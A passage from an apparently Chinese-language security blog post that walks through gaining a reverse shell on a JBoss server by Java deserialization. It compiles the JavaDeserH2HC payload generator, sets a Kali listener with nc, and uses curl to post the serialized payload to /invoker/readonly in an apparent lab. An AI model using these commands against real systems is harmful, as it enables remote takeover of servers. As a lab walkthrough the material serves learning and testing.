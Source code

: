 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4l6klpTEibBYqfFxJy9lFuibEHp8xgR5pKZnwic7FRDYCdCGjHZv5WGTUg/640?wx_fmt=png&from=appmsg "")  
**kali返回成功**  
## javaDeserH2HC反弹  
  
为了保证连接的稳定，就可以用我们的测试利用工具进行反弹：JavaDeserH2HC（需要安装配置jdk环境）  
### 下载javaDeserH2HC  
```
下载地址：https://github.com/joaomatosf/JavaDeserH2HC
```  
  
解压到KALI后执行如下反弹shell命令。  
### 编译生成数据流  
  
用指定的类路径（当前目录和 commons-collections-3.2.1.jar）编译 ReverseShellCommonsCollectionsHashMap.java 文件，生成对应的 .class 文件  
```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4VPXgIXFfpDUsB6bW2xUM9KtGxictgC86Mu3nU80EJClQSrYibO1VV8Zw/640?wx_fmt=png&from=appmsg "")  
启动 ReverseShellCommonsCollectionsHashMap 程序，运行时能访问当前目录和 commons-collections-3.2.1.jar 中的类，192.168.2.129:4445（是kali监听的ip地址）的反弹shell用来做远程连接或其他网络操作。  
```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.2.129:4445
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4nFMsuSDhrXfquthHReU0TtK8fYJPLf9CURbZjxqHZ6VrPo2Vv70C0A/640?wx_fmt=png&from=appmsg "")  
  
执行完成会在当前目录下生成一个.ser序列化数据流  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4V10n4HAFWFm5QQ2Chj6I98Y1QSwae8TBGGmwt55oSeoI1DrHHL3LlQ/640?wx_fmt=png&from=appmsg "")  
  
### kali开启监听端口  
```
nc -lvvp 4445
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4qP3pZujpJGEtH4BAeROmukMEzibvfHwrWA0jPoibumXHEvQEyHh6Sia9Q/640?wx_fmt=png&from=appmsg "")  
### 发送数据包  
```
curl http://192.168.2.148:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V42FuK5NIAtXRMUglDBy9omcibtGKpib73JyV0vWmzPicj7wib2A6LuNQKVQ/640?wx_fmt=png&from=appmsg "")  
### 反弹shell成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4gHepp5wRAIYNFUo6VMXXYyN5ayLeZhN1PnEgqKPlCjC12y2Dl3nFbw/640?wx_fmt=png&from=appmsg "")  
  
这里有一个注意的点就是jdk的版本要低于1.8，最好是1.8  
  
**感兴趣的可以关注微信 公众号【Cauchy网安】，一起一步步慢慢来，该到达的高度终将会抵达的，加油，如有雷同纯属巧合**  
  
